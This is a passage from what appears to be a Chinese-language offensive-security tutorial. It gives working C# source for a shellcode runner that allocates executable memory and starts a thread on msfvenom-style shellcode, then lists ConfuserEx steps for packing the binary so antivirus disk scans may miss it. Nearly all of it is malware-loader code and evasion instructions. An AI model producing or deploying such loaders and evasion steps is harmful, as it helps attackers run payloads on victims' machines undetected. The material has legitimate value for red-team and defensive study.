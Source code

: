 ##### 4. 打包 Shellcode 运行器 (C# 示例与 ConfuserEx)

以下是一个简单的 C# Shellcode 运行器，可用于后续的加壳演示：

C#

```
using System;
using System.Runtime.InteropServices;

public class Program
{
    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    private static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
    [DllImport("kernel32.dll", SetLastError = true)]
    private static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, out uint lpThreadId);
    [DllImport("kernel32.dll", SetLastError = true)]
    private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

    private static UInt32 MEM_COMMIT = 0x1000;
    private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;

    public static void Main()
    {
        // 替换为实际的 Shellcode (例如由 msfvenom -f csharp 生成)
        byte[] shellcode = new byte[] { 0xfc, 0x48, 0x83, /* ... */ 0xda, 0xff, 0xd5 };

        IntPtr codeAddr = VirtualAlloc(IntPtr.Zero, (uint)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
        Marshal.Copy(shellcode, 0, codeAddr, shellcode.Length);
        IntPtr threadHandle = IntPtr.Zero;
        uint threadId = 0;
        threadHandle = CreateThread(IntPtr.Zero, 0, codeAddr, IntPtr.Zero, 0, out threadId);
        WaitForSingleObject(threadHandle, 0xFFFFFFFF);
        // Cleanup...
    }
}
```

**使用 ConfuserEx (针对 .NET 程序) 进行加壳**:

1. 编译上述 C# 代码生成可执行文件。
2. 打开 ConfuserEx。
3. 设置基本目录为桌面 (或包含可执行文件的目录)。
4. 在 "Settings" 选项卡中，添加编译好的可执行文件。
5. 为该文件添加规则 (例如，点击 "+" 创建名为 "true" 的规则)。
6. 启用压缩选项。
7. 编辑 "true" 规则，将其保护预设 (Preset) 设置为最大 (Maximum)。
8. 切换到 "Protect!" 选项卡，点击 "Protect" 按钮。

ConfuserEx 会在指定目录（通常是 `Confused` 子目录）下生成加壳后的可执行文件。这个加壳后的文件在上传到某些 AV 检测平台时，初始的磁盘扫描可能不会触发警报。
